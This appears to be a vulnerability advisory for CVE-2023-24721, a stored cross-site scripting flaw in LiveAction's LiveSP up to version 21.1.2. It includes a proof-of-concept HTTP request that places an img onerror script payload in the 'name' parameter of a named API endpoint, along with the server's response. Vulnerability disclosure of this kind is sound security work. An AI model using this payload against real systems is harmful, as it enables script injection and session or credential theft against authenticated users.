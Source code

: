 ### [CVE-2023-24721](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24721)
![](https://img.shields.io/static/v1?label=Product&message=LiveSP%20-%20LiveAction&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3D%2021.1.2%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-79:%20Improper%20Neutralization%20of%20Input%20During%20Web%20Page%20Generation%20('Cross-site%20Scripting')&color=brighgreen)

### Description

An issue was discovered in LiveSP through v.21.1.2. A malicious user leveraging this vulnerability could inject arbitrary JavaScript code. The malicious payload will then be triggered every time an authenticated user browses the page containing it.

### POC

Stored cross-site scripting (also known as second-order or persistent
XSS) arises when an application receives data from an untrusted source
and includes that data within its later HTTP responses in an unsafe way.
The attacker-supplied code can perform a wide variety of actions, such
as stealing victims' session tokens or login credentials, performing
arbitrary actions on their behalf, and logging their keystrokes.
Methods for introducing malicious content include any function where
request parameters or headers are processed and stored by the
application, and any out-of-band channel whereby data can be
introduced into the application's processing space (for example, email
messages sent over SMTP that are ultimately rendered within a web
mail application).

Stored cross-site scripting flaws are typically more serious than reflected
vulnerabilities because they do not require a separate delivery
mechanism in order to reach target users, and are not hindered by web
browsers' XSS filters. Depending on the affected page, ordinary users
may be exploited during normal use of the application. In some
situations this can be used to create web application worms that spread
exponentially and ultimately exploit all active users.

### Affected Endpoint
- **URL:** https://[ip:port]/va/service/bach/topology/element
- **HTTP Post Parameter:** name

### TECHNICAL DETAILS
In this specific instance, using the API available under
*/va/service/bach/topology/element*, it is possible to inject arbitrary
JavaScript code within the *name* POST parameter, as shown in the
following HTTP Request/Response pair.

**HTTP Request:**

```html
POST /va/service/bach/topology/element HTTP/1.1
Host: [REDACTED]
Cookie: [REDACTED]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [REDACTED]
X-Customer: [REDACTED]
Content-Type: application/json
Content-Length: 175
Origin: [REDACTED]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"attributes":{"name":"\"><img src='x' onerror='alert(\"pwned\")'>","extraLabel":""},"type":"cluster","keyType":"cluster:applicationUser","children":{"neType:application":[]}}
```

**HTTP Response:**

```html
HTTP/1.1 201 Created
Server: [REDACTED]
Date: Wed, 04 Jan 2023 13:45:39 GMT
Content-Type: application/json
Content-Length: 902
Connection: close
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers:Accept,Accept-Language,APP-Platform,APP-Version,Content-Disposition,Content-Language,Content-Range,Content-Type,X-Customer,X-Debug,X-MT-Admin,X-UserScope,X-UserToken
Access-Control-Allow-Origin: *
Referrer-Policy: strict-origin

[...]
```

As we note from the HTTP Response above, the exploit was successfully saved. At this point, when the user visits the *https://[hostname:port]/va/cluster* web page, the exploit runs from the victim’s browser.


#### Reference
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24721

